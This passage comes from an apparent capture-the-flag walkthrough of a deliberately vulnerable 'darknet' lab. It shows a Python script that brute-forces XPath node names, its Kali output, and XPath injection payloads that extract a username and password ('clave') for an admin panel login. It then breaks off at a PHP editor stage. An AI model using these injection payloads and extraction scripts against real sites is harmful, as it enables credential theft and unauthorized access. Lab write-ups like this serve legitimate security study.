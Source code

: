 ```python

    carry_on = False
    print name
    for c in string.ascii_letters:
        payload = {'id': payload_tpl % (path,cmp_pos,c)}

        r = requests.get(URL, params=payload)
        if r.text.find('errorlevel') != -1:
            name += c
            carry_on = True
            break

    cmp_pos += 1

print 'Path name:', name
```

So I ran this with the current path

```sourceCode
root@kali:~/darknet# python xpath.py
u
us
use
user
Path name: user
```

and the parent path

```sourceCode
root@kali:~/darknet# python xpath.py ..
a
au
aut
auth
Path name: auth
```

Ok, that will help me get some more data from the file. I try to see if the email field will work with `1]/email|auth[id=1`. I need the `auth` part because without it the query will not close correctly in the main script, and this makes sure the closing `]` won't error.

So now I should be able to get the username with `1]/username|auth[id=1`. Now let's try the password field. I tried `pass` and `password` before I realised we're dealing with another language here. Thanks to the logins I know that the spanish for password is _clave_. `id=1]/clave|auth[id=1` throws up the password! Result. Using these detail I am able to login at `signal8.darknet.com/xpanel`

## Stage 4

![image](https://i.imgur.com/TVG7WhQ.png)

Oooh a PHP editor! Sweet... yeah right. Clicking the link goes to a page that shows:
